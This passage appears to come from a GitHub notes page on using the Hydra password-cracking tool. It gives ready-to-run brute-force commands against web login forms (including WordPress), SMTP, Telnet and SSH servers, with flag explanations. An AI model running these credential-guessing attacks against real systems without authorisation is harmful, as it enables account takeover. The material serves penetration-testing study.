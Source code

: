 We can make more complicated examples, for example by specifying specific headers or cookies with:

```shell
hydra 192.168.1.69 http-post-form "/foo.php:user=^USER^&pass=^PASS^:S=success:C=/page/cookie:H=X-Foo: Foo" \
-L users.txt -P pass.txt -t 10 -w 1 -o hydra-http-post-attack.txt
 # in this case we specify that the cookie should be page/cookie
 # cookies can be specified with C=
 # and we also added an header with H= 
 # this header is called X-Foo and has as value Foo
```

```shell
hydra -L users.txt -P words.txt https://www.site.com  https-post-form "/index.cgi:login&name=^USER^&password=^PASS^&login=Login:Not allowed" &
 # here we use https-post-form, since the website uses https
```

```shell
hydra -L lists/usrname.txt -P lists/pass.txt localhost -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
# now we check for success by using S=Location, since wordpress uses a Location
# header to redirect the user, we can think about S as a sort of grep applied to
# the HTTP response
```

## [](https://github.com/gnebbia/hydra_notes#smtp)SMTP

```shell
hydra smtp.victimsemailserver.com smtp -l useraccount@gmail.com -P '/root/Desktop/rockyou.txt' -s portnumber -S -v 
```

Generally the port used for SMTP is 465 and common SMTP server for common email services are: * smtp.mail.yahoo.com * smtp.gmail.com * smtp.live.com (but on poort 587)

## [](https://github.com/gnebbia/hydra_notes#telnet)Telnet

```shell
hydra -l <username> -P <password_file> telnet://targetname
```

## [](https://github.com/gnebbia/hydra_notes#ssh)SSH

```shell
hydra -l root -M /path/to/ip/list.txt -P /path/to/passwordlist.txt ssh -t 4
```

Notice that with some services, we may need to use the recommended number of tasks. In case of SSH if we use more than 4 tasks we may get errors.

```shell
hydra 192.168.1.26 ssh2 -s 22 -P pass.txt -L users.txt -e ns -t 10
 # this will attack the system 192.168.1.26 on port 22
 # and will use as password file pass.txt while
 # for users the file users.txt
 # the process will use 10 threads at a time
```
